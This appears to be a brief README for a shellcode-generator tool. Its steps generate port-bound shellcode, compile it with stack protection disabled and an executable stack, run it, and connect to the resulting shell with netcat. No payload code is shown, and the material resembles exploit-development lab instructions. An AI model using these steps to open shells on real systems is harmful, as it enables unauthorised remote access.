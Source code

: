 1. Run ./shellcode-generator.py PortNumber
    - (ie ./shellcode-generator.py 4444)
2. Paste shellcode into shellcode.c
3. compile with: gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
4. ./shellcode
5. nc -nv ipaddress-of-host port-number
6. done
